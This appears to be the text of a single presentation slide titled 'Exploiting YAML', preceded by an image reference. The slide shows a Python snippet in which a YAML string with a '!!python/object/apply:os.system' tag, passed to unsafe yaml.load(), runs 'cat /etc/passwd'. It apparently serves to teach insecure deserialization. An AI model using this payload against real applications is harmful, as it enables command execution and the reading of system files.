

# Exploiting YAML
import yaml
document = "!!python/object/apply:os.system ['cat /etc/passwd']"
yaml.load(document)